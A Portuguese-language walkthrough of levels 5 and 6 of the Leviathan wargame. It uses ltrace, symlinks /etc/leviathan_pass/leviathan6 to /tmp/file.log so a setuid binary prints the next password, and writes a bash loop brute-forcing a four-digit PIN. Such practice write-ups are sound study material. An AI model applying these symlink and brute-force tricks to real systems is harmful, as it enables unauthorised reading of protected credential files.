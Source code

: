 
Outro executável, vamos executá-lo e ver o que acontece.

    leviathan5@melinda:~$ ./leviathan5
    Cannot find /tmp/file.log
    

Certo. Parece que o executável está tentando obter informações de um arquivo que não existe. Vamos rodar o comando `ltrace` e ver o que está sendo chamado.

    leviathan5@melinda:~$ ltrace ./leviathan5
    __libc_start_main(0x80485ed, 1, 0xffffd794, 0x8048690 <unfinished ...>
    fopen("/tmp/file.log", "r")                      = 0
    puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
    )                = 26
    exit(-1 <no return ...>
    +++ exited (status 255) +++
    

Interessante, parece que o executável está usando o comando `fopen`em **/tmp/file.log**. Criemos então um link simbólico de **/etc/leviathan_pass/levithan6** para o arquivo **/tmp/file.log**.

    leviathan5@melinda:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
    leviathan5@melinda:~$ ./leviathan5
    FLAG
    

Bem fácil! Nós conseguimos a FLAG e agora podemos ir para o leviathan6!

### Level 6 -> 7:

Como sempre, vamos executar `ls -la` e ver o que temos para trabalhar.

    leviathan6@melinda:~$ ls -la
    total 28
    drwxr-xr-x   2 root       root       4096 Nov 14  2014 .
    drwxr-xr-x 172 root       root       4096 Jul 10 14:12 ..
    -rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
    -rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
    -rw-r--r--   1 root       root        675 Apr  9  2014 .profile
    -r-sr-x---   1 leviathan7 leviathan6 7484 Nov 14  2014 leviathan6
    leviathan6@melinda:~$ ./leviathan6
    usage: ./leviathan6 <4 digit code>
    


Outro executável, chocante... de fato. Este em particular, está solicitando um pin de 4 dígitos como entrada. Vamos tentar utilizar força bruta para encontrar o pin. Começaremos criando um diretório tmp e abrindo o editor de texto `nano` para escrever um shell script.

    leviathan6@melinda:~$ mkdir /tmp/jhalon
    leviathan6@melinda:~$ nano /tmp/jhalon/brute.sh
    

Nosso shell script será algo parecido com isso...

    #!/bin/bash
    
    for a in {0000..9999}
    do
    ~/leviathan6 $a
    done
    